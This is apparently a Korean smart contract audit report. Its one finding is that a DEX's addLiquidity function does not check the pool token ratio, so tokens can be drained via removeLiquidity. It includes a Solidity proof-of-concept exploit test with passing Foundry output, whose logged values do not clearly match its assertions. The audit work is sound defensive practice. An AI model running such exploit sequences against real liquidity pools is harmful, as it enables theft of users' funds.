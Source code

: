 | Risk Level | Description |
| --- | --- |
| Critical | 자산 손실, 데이터 조작으로 이어질 수 있음 |
| High | 공격을 하기에는 어렵지만, 계약에 큰 영향을 미침 ex) 중대한 함수에 접근 가능 |
| Medium | 계약에 큰 영향을 미치지는 않지만 감사 주의가 필요함 |
| Low | 오래되거나 사용되지 않는 코드가 실행에 영향을 미침 |
| Informational | 주의가 필요한 영역 |

# DEX

## 1. 유동성 공급량 비율 검사하지 않음

### 설명

유동성 공급 시 유동성 풀 내의 토큰 비율을 검사하지 않는다.

비율에 맞지 않게 X토큰과 Y토큰을 추가할 수 있고, 이후에 removeLiquidity 함수를 통해 토큰 탈취가 가능하다.

<br>

hyeon777, addLiquidity() 

dlanaraa, addLiquidity()

jt-dream, addLiquidity()

jun4n, addLiquidity()

<br>

```solidity
function PoC() external {
	uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0);
	emit log_named_uint("firstLPReturn", firstLPReturn);
	
	uint secondLPReturn = dex.addLiquidity(1000 ether, 3 ether, 0);
	emit log_named_uint("secondLPReturn", secondLPReturn);
	
	(uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
	
	emit log_named_uint("secondLPremove", tx);
	emit log_named_uint("secondLPremove", ty);
	
	assertEq(tx, 1000 ether);
	assertEq(ty, 3 ether);
}
```

```solidity
[PASS] PoC() (gas: 213215)
Logs:
  receive 0
  receive 1000000000000000000000000
  true
  transfer 1000000000000000000000000
  tx,ty 500000000000000000000 500000000000000000000

Test result: ok. 1 passed; 0 failed; finished in 5.66ms
```
